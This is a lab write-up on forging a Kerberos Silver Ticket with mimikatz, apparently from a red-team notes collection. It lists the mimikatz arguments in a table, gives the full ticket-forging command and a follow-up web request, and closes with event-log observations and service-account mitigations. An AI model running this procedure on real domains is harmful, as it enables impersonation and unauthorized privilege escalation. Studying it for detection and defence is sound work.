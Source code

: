 ```yaml
---
description: Credential Access
---
```


# Kerberos: Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.

This lab builds on the explorations in [T1208: Kerberoasting](./) where a TGS ticket got cracked.

## Execution

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit me as an attacker. 

Below is a table with values supplied to mimikatz explained and the command itself:

| Argument | Notes |
| :--- | :--- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user` |
| /target:dc-mantvydas.offense.local | server hosting the attacked service for which the TGS ticket was cracked |
| /service:http | service type being attacked |
| /rc4:a87f3a337d73085c45f9416be5787d86 | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case |
| /user:beningnadmin | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155 | Forging user's RID - fun |
| /ptt | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately |

Getting our user's SID as explained in the first step in the above table:

![Getting a user&apos;s SID](../../../.gitbook/assets/silver-tickets-whoami.png)

Issuing the final mimikatz command to create our forged \(silver\) ticket:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Checking available tickets in memory with `klist` - note how the ticket shows our forged username `benignadmin` and a forged user id:

![](../../../.gitbook/assets/silver-tickets-generated-ticket%20%282%29.png)

Note in the above mimikatz window the `Group IDs` which our fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name |
| :--- | :--- |
| 512 | Domain Admins |
| 513 | Domain Users |
| 518 | Schema Admins |
| 519 | Enterprise Admins |
| 520 | Group Policy Creator Owners |

![](../../../.gitbook/assets/silver-tickets-groups.png)

Initiating a request to the attacked service with a TGS ticket - note that the authentication is successfull:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../../.gitbook/assets/silver-tickets-httprequest.png)

## Observations

Note a network logon from `benignadmin` as well as forged RIDs:

![](../../../.gitbook/assets/silver-tickets-4624%20%281%29.png)

It is better not to use user accounts for running services on them, but if you do, make sure to use really strong passwords! Computer accounts generate long and complex passwords and they change frequently, so they are better suited for running services on. Better yet, follow good practices such as using [Group Managed Service Accounts](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh831782%28v=ws.11%29) for running more secure services.

## References

{% embed url="https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets" %}

{% embed url="https://adsecurity.org/?p=2011" %}

